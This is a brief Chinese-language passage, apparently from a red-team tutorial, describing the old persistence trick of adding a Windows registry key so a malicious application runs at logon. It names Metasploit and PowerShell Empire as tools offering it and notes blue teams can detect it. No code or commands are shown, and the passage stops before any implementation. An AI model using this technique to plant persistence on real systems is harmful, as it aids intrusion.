{width="80%"}

创建在 Windows 登录时执行恶意应用的注册表项，是红队作战手册中最古老的技巧之一。

各种威胁行为者以及 Metasploit、Powershell Empire 等知名工具都提供了这项能力。

因此，成熟的蓝队专家能够检测到这种恶意活动。

如你所见，逻辑是最简单的一种。

我们只是添加一个新的注册表项。
